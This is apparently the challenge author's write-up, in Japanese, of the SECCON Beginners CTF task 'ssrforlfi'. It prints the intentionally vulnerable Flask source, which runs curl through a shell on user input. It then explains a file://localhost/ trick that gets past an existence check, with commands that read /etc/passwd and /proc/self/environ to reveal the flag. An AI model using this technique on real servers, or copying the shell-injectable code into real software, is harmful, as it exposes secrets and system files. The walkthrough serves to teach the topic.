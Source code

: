 # ssrforlfi

## 問題文
SSRF？ LFI？ ひょっとしてRCE？  
[https://ssrforlfi.beginners.seccon.games](https://ssrforlfi.beginners.seccon.games)  
[ssrforlfi.tar.gz](files/ssrforlfi.tar.gz) 0a1fdf267d06a10949c09983834476a8b0aa84a5  

## 難易度
**easy**  

## 作問にあたって
問題文にある通り、SSRF、LFI、RCEといった脆弱性を取捨選択するbeginner問題として作りました。  
調べる要素があるとのことでeasyに格上げになりました。  
ググると解けます。  

## 解法
アクセスするとクエリパラメータ`?url=`で、指定したURLを閲覧できるサービスのようだ。  
```bash
$ curl 'https://ssrforlfi.beginners.seccon.games'
Welcome to Website Viewer.<br><code>?url=http://example.com/</code>
```
試しに`http://example.com`を指定してみる。  
```bash
$ curl 'https://ssrforlfi.beginners.seccon.games?url=http://example.com'
<!doctype html>
<html>
<head>
    <title>Example Domain</title>
~~~
```
取得出来ているようだ。  
ソースが配布されているため見ると、以下の通りであった。  
```python
import os
import re
import subprocess
from flask import Flask, request

app = Flask(__name__)


@app.route("/")
def ssrforlfi():
    url = request.args.get("url")
    if not url:
        return "Welcome to Website Viewer.<br><code>?url=http://example.com/</code>"

    # Allow only a-z, ", (, ), ., /, :, ;, <, >, @, |
    if not re.match('^[a-z"()./:;<>@|]*$', url):
        return "Invalid URL ;("

    # SSRF & LFI protection
    if url.startswith("http://") or url.startswith("https://"):
        if "localhost" in url:
            return "Detected SSRF ;("
    elif url.startswith("file://"):
        path = url[7:]
        if os.path.exists(path) or ".." in path:
            return "Detected LFI ;("
    else:
        # Block other schemes
        return "Invalid Scheme ;("

    try:
        # RCE ?
        proc = subprocess.run(
            f"curl '{url}'",
            capture_output=True,
            shell=True,
            text=True,
            timeout=1,
        )
    except subprocess.TimeoutExpired:
        return "Timeout ;("
    if proc.returncode != 0:
        return "Error ;("
    return proc.stdout


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=4989)
```
クエリに指定するURLには`^[a-z"()./:;<>@|]*$`にマッチする文字のみが利用できる。  
さらにSSRFとLFIの防止として、`http://`や`https://`では`localhost`へのアクセス禁止、`file://`では`os.path.exists(path)`で存在するファイルへのアクセス禁止が行われている。  
その後に`subprocess.run`にURLが渡り、curlされている。  
この箇所でのOSコマンドインジェクション(RCE)も怪しい。  
さらに、配布ファイルからフラグは環境変数にあることがわかる。  
つまり`/proc/self/environ`を読み取ることができればゴールとなる。  
RCEはクエリに指定できる文字の制限があるため厳しく、SSRFでファイルシステムにアクセスすることは難易度が高い。  
LFIでファイルを読み出す方針が最も簡単そうだ。  
そのためには`os.path.exists(path)`をバイパスする必要がある。  
Pythonでファイルが存在しないと判定され、curlでファイルが読み取れるパスの記法はないだろうか？  
「file scheme」のようにGoogle検索し、[RFC 8089](https://datatracker.ietf.org/doc/html/rfc8089)などを読むと`file://hostname/path/to/file`でもアクセスできることがわかる(Wikipediaでもよい笑)。  
以下のように試してみる。  
```bash
$ curl 'file://localhost/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
~~~
```
ファイルが読み取れた。  
Pythonでは`file://`が取り除かれているので、`localhost/etc/passwd`など存在するはずもない。  
この方式で`file://localhost/proc/self/environ`を読み取ればよい。  
```bash
$ curl 'https://ssrforlfi.beginners.seccon.games?url=file://localhost/proc/self/environ' -o -
UWSGI_ORIGINAL_PROC_NAME=uwsgiHOSTNAME=a84e51bef68dHOME=/home/ssrforlfiPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binLANG=C.UTF-8DEBIAN_FRONTEND=noninteractivePWD=/var/wwwTZ=Asia/TokyoUWSGI_RELOADS=0FLAG=ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}
```
flagが得られた。  

## ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}